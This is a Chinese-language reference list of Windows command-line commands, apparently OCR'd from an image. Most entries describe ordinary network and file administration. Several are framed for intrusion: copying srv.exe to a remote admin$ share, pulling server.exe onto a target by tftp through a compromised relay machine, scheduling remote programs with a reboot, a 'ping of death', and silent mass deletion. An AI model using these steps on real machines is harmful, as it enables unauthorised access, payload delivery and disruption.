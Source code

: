 　　net start 查看开启了哪些服务
　　net start 服务名　开启服务；(如:net start telnet， net start schedule)
　　net stop 服务名 停止某服务
　　net time 目标ip 查看对方时间
　　net time 目标ip /set 设置本地计算机时间与“目标IP”主机的时间同步,加上参数/yes可取消确认信息
　　net view 查看本地局域网内开启了哪些共享
　　net view ip 查看对方局域网内开启了哪些共享
　　net config 显示系统网络设置
　　net logoff 断开连接的共享
　　net pause 服务名 暂停某服务
　　net send ip "文本信息" 向对方发信息
　　net ver 局域网内正在使用的网络连接类型和信息
　　net share 查看本地开启的共享
　　net share ipc$ 开启ipc$共享
　　net share ipc$ /del 删除ipc$共享
　　net share c$ /del 删除C：共享
　　net user guest 12345 用guest用户登陆后用将密码改为12345
　　net password 密码 更改系统登陆密码
　　netstat -a 查看开启了哪些端口,常用netstat -an
　　netstat -n 查看端口的网络连接情况，常用netstat -an
　　netstat -v 查看正在进行的工作
　　netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
　　netstat -s 查看正在使用的所有协议使用情况
　　nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
　　tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
　　ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
　　ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
　　ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
　　tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
　　kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
　　del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
　　del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
　　move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
　　fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
　　at id号 开启已注册的某个计划任务
　　at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
　　at id号 /delete 停止某个已注册的计划任务
　　at 查看所有的计划任务
　　at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
　　finger username @host 查看最近有哪些用户登陆
　　telnet ip 端口 远和登陆服务器,默认端口为23
　　open ip 连接到IP（属telnet登陆后的命令）
　　telnet 在本机上直接键入telnet 将进入本机的telnet
　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
　　用参数/e才可连目录下的子目录一起复制到目标地址下。
　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
　　mem 查看cpu使用情况
　　attrib 文件名(目录名) 查看某文件（目录）的属性
　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
　　set 指定环境变量名称=要指派给变量的字符 设置环境变量